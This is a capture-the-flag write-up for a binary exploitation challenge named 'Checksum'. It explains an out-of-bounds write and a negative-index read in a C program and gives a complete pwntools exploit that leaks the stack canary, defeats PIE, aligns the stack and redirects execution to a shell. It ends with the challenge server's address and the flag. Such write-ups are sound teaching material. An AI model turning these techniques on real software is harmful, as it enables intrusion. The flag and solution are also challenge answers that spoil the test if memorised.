



# Checksum

> Checksum, Sum Check, what's the diff? 
>
> Whatever, I've got more protections now on my calculator now, and I only support addition. Can't pwn this!
> 
> `nc 34.143.157.242 8072`


We are given the source code `checksum.c`, the executable `checksum.bin`, the `Makefile`, and the linker `ld-2.31.so` and LIBC file `libc-2.31.so`. 

## Analysis and exploitation

First, we take a look in the source code and see that there’s a function called `win()` that spawns a shell but doesn’t get called, so we probably have to redirect execution there

```c
void win() {
    system("/bin/sh");
}
```

The main function is as follows

```c
int main() {
    setup();

    i64 history[HISTORY_SZ];
    i64 history_idx = 0;
    i64 x;
    i64 opt, read_idx;

    banner();
    
    while(1) {
        printf("opt >> ");
        scanf("%lld", &opt);
        switch (opt) {
            case 1:
                printf("idx >> ");
                scanf("%lld", &read_idx);
                if (read_idx >= HISTORY_SZ)
                    exit(1);
                printf("<< %lld\n", history[read_idx]);
                break;

            case 2:
                printf("x >> ");
                scanf("%lld", &x);
                history[history_idx] = x;
                if(checksum(x)) return 0;
                history_idx++;
                break;
        }
    }
}
```

There is a fixed size array of signed 64-bit integers on the stack, called `history`. Option 2 allows us to write to that array, but doesn’t check that `history_idx` is within bounds (i.e. less than `HISTORY_SZ`), so that gives us a buffer overflow that we can potentially use to control the return address to redirect execution to our `win()` function. 

### Buffer overflow

First we set up our pwntools template exploit script with this command

```
pwn template --host 34.143.157.242 --port 8072 ./checksum.bin > soln.py
```

Then we define this helper function to write a numerical value into the `history` array

```python
def write_bytes(uint_value):
    io.recvuntil(b'opt >> ')
    io.sendline(b'2')

    io.recvuntil(b'x >> ')
    io.sendline(f'{uint_value}'.encode())
```

Then we try to do a classic buffer overflow attack. We go into IDA to see that the `history` buffer is at `rbp-0x90`, which means that we need 0x98 bytes of padding before we can reach the return address



Hence, we write our buffer overflow code accordingly. Note that the process will return from `main()` when we give `1337` as an input, so we do that at the end.

```python
io = start()

win_addr = exe.symbols['win']

for _ in range((0x98 // 8)):
    write_bytes(0x4141414141414141)

write_bytes(win_addr)
write_bytes(1337)

io.interactive()
```

Then, we run it, but find that it’s complaining about some smashed stack

```
$ python soln.py LOCAL
...
[*] Switching to interactive mode
wow! you win!
*** stack smashing detected ***: terminated
[*] Got EOF while reading in interactive
```

### Stack canary

We check the protections the binary has, and find that it does have a stack canary, which explains the error

```
$ checksec ./checksum.bin
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

This means that we need to find a way to leak the stack canary too. We take a look at the source code again, focusing on option 1 which allows us to read from the `history` stack array. 

```c
case 1:
    printf("idx >> ");
    scanf("%lld", &read_idx);
    if (read_idx >= HISTORY_SZ)
        exit(1);
    printf("<< %lld\n", history[read_idx]);
    break;
```

We notice that it only checks for `read_idx` to be less than `HISTORY_SZ`, but doesn’t check if it’s non-negative. We run it and test it out with negative numbers, and find that it reads the values just fine

```
$ ./checksum.bin
Checksum Sum Checker
--- math is hard ---
1: View history
2: Sum numbers
opt >> 1
idx >> -1
<< 0
opt >> 1  
idx >> -10
<< 94714415878432
```

This is very promising. However, if we read the disassembly in IDA, the stack canary is at `rbp-0x8`, while our stack array is at `rbp-0x90`. This means that the stack canary is at a positive offset away from our stack array, and our ability to read from negative indices doesn’t seem to be immediately useful. 

We take a closer look at the disassembly, and notice that the index we give it is multiplied by 8 when calculating the address of the value to read (because we’re indexing an array of 64-bit integers).



We realize that the index we give has only has to be negative before the multiplication, and can actually be positive after the multiplication. 

If we take our intended byte offset, shift right by 3 bits (equivalent to dividing by 8), then set the leftmost bit (the sign bit), the resultant value will be an index that is negative, but turn into a positive byte offset once multiplied by 8. 

This gives us an arbitrary read, and we can use this to leak the stack canary. We first write a helper function to do the transformation we just talked about

```python
def get_negative_index(byte_offset):
    target_number = ((1 << 63) | (byte_offset // 8))
    negative_index = (u64(p64(target_number), sign="signed"))
    return negative_index
```

Then we use it to define another helper function that gives us an arbitrary read anywhere relative to the stack

```python
def read_local_value(rbp_offset):
    """rbp_offset is positive, so if looking for [rbp-8] give 8 as the arg"""
    byte_offset = 0x90 - rbp_offset
    negative_index = get_negative_index(byte_offset)

    io.recvuntil(b'opt >> ')
    io.sendline(b'1')

    io.recvuntil(b'idx >> ')
    io.sendline(f'{negative_index}'.encode())

    io.recvuntil(b'<< ')
    local_value = int(io.recvline(keepends=False).decode('utf-8'))

    return local_value
```

We then use this arbitrary read to leak our stack canary, then replace our padding bytes with the canary value so that the canary won’t get overwritten

```python
io = start()

canary_value = read_local_value(8)
win_addr = exe.symbols['win']

for _ in range((0x98 // 8)):
    write_bytes(canary_value)

write_bytes(win_addr)
write_bytes(1337)

io.interactive()
```

Then we run it, and find that there’s no more stack smashing error, but we still don’t get a shell

```
$ python soln.py LOCAL
...
[*] Switching to interactive mode
wow! you win!
[*] Got EOF while reading in interactive
```

### Bypassing ASLR

We take a look at the protections again, and realize that PIE is set, meaning that the address of our `win()` function will change every run, and we will have to leak an address to know where it is. We run the process in our preferred debugger, and take a look at the stack to see if there are any good addresses we can use.

We see that the uninitialized stack value at `rbp-0x18` points to the address of `_start()` (before we do the buffer overflow). 



This value will be in the same page as `win()`, so we can use it to derive its address

```python
start_addr = read_local_value(0x18)

win_addr = (start_addr & 0xfffffffffffff000) | (exe.symbols['win'] & 0xfff)
```

Then if we just add this and try to run the script, it still doesn’t give us a shell. We run it in a debugger and find that we do actually reach `win()`, but get a segmentation fault somewhere inside. 

This is very common, and is because the libc `system()` function requires the stack to be 16-byte aligned. The solution is also very simple - we just have to put a `ret` gadget before the `win()` function address to align the stack first. 

Hence, we make the following modifications to our code

```python
io = start()

rop = ROP(exe)
ret = rop.ret.address

canary_value = read_local_value(8)
start_addr = read_local_value(0x18)

win_addr = (start_addr & 0xfffffffffffff000) | (exe.symbols['win'] & 0xfff)
ret_addr = (start_addr & 0xfffffffffffff000) | (ret & 0xfff)

for _ in range((0x98 // 8)):
    write_bytes(canary_value)

write_bytes(ret_addr)
write_bytes(win_addr)
write_bytes(1337)

io.interactive()
```

Then run it locally and finally get a shell

```
$ python soln.py LOCAL
...
[*] Switching to interactive mode
wow! you win!
$ ls
checksum.bin      checksum.bin.id1  checksum.bin.til  libc-2.31.so  soln.py
checksum.bin.i64  checksum.bin.id2  checksum.c          Makefile
checksum.bin.id0  checksum.bin.nam  ld-2.31.so          soln1.py
```

We then run it on the server, then get our flag

```
$ python soln.py
...
[*] Switching to interactive mode
wow! you win!
$ ls
flag.txt
ld-2.31.so
libc-2.31.so
run
$ cat flag.txt
greyhats{M4tH_H4rD_pwN_b4ng_B4nG_32afe1}
```

## Overall exploit code

```python
#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

def get_negative_index(byte_offset):
    target_number = ((1 << 63) | (byte_offset // 8))
    negative_index = (u64(p64(target_number), sign="signed"))
    return negative_index


def read_local_value(rbp_offset):
    """rbp_offset is positive, so if looking for [rbp-8] give 8 as the arg"""
    byte_offset = 0x90 - rbp_offset
    negative_index = get_negative_index(byte_offset)

    io.recvuntil(b'opt >> ')
    io.sendline(b'1')

    io.recvuntil(b'idx >> ')
    io.sendline(f'{negative_index}'.encode())

    io.recvuntil(b'<< ')
    local_value = int(io.recvline(keepends=False).decode('utf-8'))

    return local_value


def write_bytes(uint_value):
    io.recvuntil(b'opt >> ')
    io.sendline(b'2')

    io.recvuntil(b'x >> ')
    io.sendline(f'{uint_value}'.encode())


io = start()

rop = ROP(exe)
ret = rop.ret.address

canary_value = read_local_value(8)
start_addr = read_local_value(0x18)

win_addr = (start_addr & 0xfffffffffffff000) | (exe.symbols['win'] & 0xfff)
ret_addr = (start_addr & 0xfffffffffffff000) | (ret & 0xfff)

for _ in range((0x98 // 8)):
    write_bytes(canary_value)

write_bytes(ret_addr)
write_bytes(win_addr)
write_bytes(1337)

io.interactive()
```


## Flag

```
greyhats{M4tH_H4rD_pwN_b4ng_B4nG_32afe1}
```